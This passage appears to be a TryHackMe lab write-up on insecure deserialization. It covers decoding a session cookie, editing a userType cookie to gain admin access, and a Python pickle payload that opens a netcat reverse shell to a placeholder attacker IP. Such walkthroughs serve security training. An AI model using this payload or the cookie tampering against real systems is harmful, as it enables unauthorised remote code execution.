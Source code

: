![cookies](./.images/insc_deserial_cookies.png) 

1. 1st flag (cookie value)
* In the cookies section, we can see a cookie named `sessionid` but it is in base 64 (at it ends with `==`). So, we first need to decode it from base64. From the decoded value, we can find the required flag for this answer.

2. 2nd flag (admin dashboard)
* Currently we are logged in as a user, to get the admin flag we need to change our account type to 'admin'. This can be done by replacing the'user' with 'admin' in the `userType` cookie in the cookies section.
	Once done, we can go to `http://machine_ip/admin` and find the flag on the page itself.

### [Task 27] Insecure Deserialization - Remote Code Execution
As mentioned in task 22, insecure deserialization can lead to lead to RCE, that is what we are going to perform in this attack.

For this task, we need to perform the following task:
1. First, need to change our account type back to 'user' from previously set 'admin' and go to `/myprofile` page.
2. There we need to click on `Exchange you vim` and then on `Provide your feedback`.
3. To get an RCE shell, we need to start a listener. This can be done by executing the netcat command `nc -nvlp 4444`. Here, 4444 is the port on which we are listening.
4. They have provided us a python script as well, that can help us establish an RCE connection from the target machine which is:
	```
	import pickle
	import sys
	import base64
	command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'
	class rce(object):
	    def __reduce__(self):
	        import os
	        return (os.system,(command,))
	print(base64.b64encode(pickle.dumps(rce())))
	```
	We need to replace YOUR_TRYHACKME_VPN_IP with our system's local IP address that can be found out using `ifconfig` and would be something like `10.x.x.x`. In this function, a command has been defined which is later used in the `rce() class`. This class is further base64 encoded, which is the value that we would get as output.

	On executing this python script as `python script.py`, we will get byte stream as output from which we need only the data between the single quotes(').

	Now all that we need to do is copy this value to 'encodedPayload' value in the website's cookie section and refresh the page.

	This will execute the rce payload and we will get an RCE shell on our listener. 

	To find where the flag is located, we can use the command: `find / -name flag.txt 2> /dev/null`. We can read the file and find the flag that can be used as the answer to this task's question.
